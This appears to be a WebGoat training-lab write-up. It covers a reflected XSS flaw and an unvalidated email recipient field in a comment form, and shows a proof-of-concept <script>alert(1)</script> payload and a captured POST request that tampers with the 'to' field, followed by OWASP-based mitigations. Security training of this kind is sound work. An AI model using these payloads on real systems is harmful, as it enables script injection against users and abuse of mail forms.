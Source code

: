 ## Vulnerability:

There are two issues:

1) There is now input validation of data provided by the user via HTML form so malicious input can be provided. In consequence reflected XSS attack is possible.

2) Email receipt is controlled by the user and not validated on server-side so the malicious user can send email to arbitrary person using given HTML form.

## Exploitation:

In 'Questions or Comments:' from send malicious javaScript code, for testing purposes:
```
<script>alert(1);</script>
```

This will be executed by webgoat admin when reading email.

To send malicious javaScript payload additionally modify 'to' field in HTML form. I've used 'Live HTTP headers' firefox add-on for this purpose, sending following request:

```
Host: webgoat.hacking-lab.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:30.0) Gecko/20100101 Firefox/30.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://webgoat.hacking-lab.com/attack?Screen=47&menu=1700
Cookie: JSESSIONID=3B42A5BADB7D88877255309F1E2230D1
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

subject=Comment+for+WebGoat&to=ciec%40owasp.org&msg=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E&SUBMIT=Send%21
```

## Mitigation:

1) Use input validation library or implement own solution for defense against XSS attacks (OWASP ESAPI can be used or OWASP XSS Prevention Cheat Sheet as guide for implementing own solution).

2) It should be possible to send email only to webgoat@owasp.org field to in HTML form is not needed or it should be validated on server-side) 
